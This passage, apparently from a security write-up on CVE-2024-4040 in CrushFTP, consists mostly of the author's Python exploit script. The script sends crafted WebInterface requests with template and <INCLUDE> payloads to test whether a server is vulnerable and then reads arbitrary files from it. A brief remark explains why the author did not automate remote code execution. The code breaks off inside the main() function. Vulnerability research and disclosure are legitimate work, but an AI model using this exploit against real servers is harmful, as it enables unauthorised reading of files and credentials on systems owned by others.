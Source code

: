 I have made my own script which triggers the vulnerability and checks if the target CrushFTP is vulnerable or not and if it is, it will retrieve the specified file.

> Unfortunately, automating the RCE is not worth the effort in this case as it is multi-step process. Not that it cannot be automated with extra effort, it is just some dependency on the VFS share where you have uploaded the jar file have to be specified during the plugin configuration. It will not be scalable per se.
> 

```python
#!/usr/bin/python3

import requests
import argparse
import re

def check_vulnerability(url):
    try:
        sess = requests.Session()
        sess.get(url)
        currentAuth = sess.cookies['currentAuth']
        # Implement vulnerability check logic here
        print("[*] Checking vulnerability for URL:", url)

        response = sess.get(f"{url}/WebInterface/function/?command=zip&c2f="+currentAuth+"&path={{user_name}}&names=*")
        if "anonymous" in response.text:
            print(f"[+] URL: {url} is vulnerable to CVE 2024-4040")
            return True
        else:
            print("[-] Not vulnerable!")
            return False
    except Exception as e:
        print(f"Error occured: ", e)
        return False

def do_include_file_command(url, filename):
    # Implement LFI logic here
    check_vulnerability(url)
    print("[*] Attempting to read file:", filename)
    try:
        sess = requests.Session()
        sess.get(url)
        currentAuth = sess.cookies['currentAuth']
        response = sess.get(f"{url}/WebInterface/function/?command=zip&c2f="+currentAuth+f"&path=<INCLUDE>{filename}</INCLUDE>&names=*")
        if filename in response.text:
            print("[!] Filename found in response, the requested file may not exist")
            print(response.text)
        else:
            print(response.text)
        return True
    except Exception as e:
        print(f"Error occured: ", e)
        return False

def main():
    parser = argparse.ArgumentParser(description="Script to check for vulnerability and perform LFI on CrushFTP.")
    parser.add_argument("--check", action="store_true", help="Check if the remote instance is vulnerable or not")
    parser.add_argument("--lfi", metavar="FILENAME", help="Include a file from the remote instance")
    parser.add_argument("--url", required=True, help="Base URL of the CrushFTP instance")

```